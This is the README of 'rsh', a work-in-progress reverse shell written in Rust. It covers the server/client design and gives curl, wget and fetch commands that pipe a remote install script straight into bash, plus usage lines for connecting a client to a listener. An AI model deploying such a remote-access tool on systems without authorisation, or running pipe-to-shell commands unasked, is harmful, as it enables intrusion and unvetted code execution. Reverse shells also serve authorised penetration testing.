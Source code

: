# <img src=images/rsh_highlight_interlaced.png width="200">
### Rust Reverse Shell

<details>
<summary>Contents</summary>

- [](#)
    - [Rust Reverse Shell](#rust-reverse-shell)
  - [What is rsh?](#what-is-rsh)
  - [Installation](#installation)
    - [Commands](#commands)
    - [Inspection](#inspection)
  - [Usage](#usage)
    - [Server](#server)
    - [Client](#client)
  - [Contributing](#contributing)
  - [FAQ](#faq)
    - [- Why is it "rsh"? Shouldn't it be "rrs"?](#--why-is-it-rsh-shouldnt-it-be-rrs)
    - [- Why Rust? Why not C/C++?](#--why-rust-why-not-cc)

</details>

## What is rsh?
_**rsh is a reverse shell written in Rust.**_
<br>
It is a Work In Progress, and not ready for use yet.
<br><br>
In a reverse shell, the server listens for connections, and the client connects to it.
The client is the one that executes the commands and sends it back to the server.
This project is licensed under the [GPL-3](https://github.com/simonfalke-01/rsh/blob/main/LICENSE) License.

## Installation
_Note: Installation instructions do not currently work._
<br>
rsh can be installed on your system by running one of the commands below in your terminal.
An installation script will be run. You must have git, and either `curl` or `wget` installed.

### Commands
| Method    | Command                                                                                            |
| :-------- |:---------------------------------------------------------------------------------------------------|
| **curl**  | `/bin/bash -c "$(curl -fsSL https://raw.githubusercontent.com/simonfalke-01/rsh/main/install.sh)"` |
| **wget**  | `/bin/bash -c "$(wget -O- https://raw.githubusercontent.com/simonfalke-01/rsh/main/install.sh)"`   |
| **fetch** | `/bin/bash -c "$(fetch -o - https://raw.githubusercontent.com/simonfalke-01/rsh/main/install.sh)"` |

### Inspection
If you would like to inspect the script before running it, you can download the script by running the following command:
```bash
wget https://raw.githubusercontent.com/simonfalke-01/rsh/main/install.sh
```
After you are done, you can run the script with
```bash
chmod +x ./install.sh && ./install.sh
```

## Usage
The server script should be run first, which sets up a listener (default on port 8080, localhost, if none are specified).
<br>
Run the following commands on the respective systems. Substitute `<address>` and `<port>` for the address and port that you would like to bind/connect to.
### Server
```sh
rsh server <address> <port>
```
### Client
```sh
rshc client <address> <port>
```

## Contributing
Please read the [Contributing Guidelines](https://github.com/simonfalke-01/rsh/blob/main/CONTRIBUTING.md) for more info.

## FAQ
### - Why is it "rsh"? Shouldn't it be "rrs"?
A simple diagram for this:
<br><br><br>
<p align="center">
<img src="images/dont_ask.png" width="250" alt="rsh">
</p>
<br>
Don't ask.

### - Why Rust? Why not C/C++?
<img src="images/c_segfault.png" width="" alt="Image of C segfaulting">

<br><br><br><br>

michelle please be my girlfriend
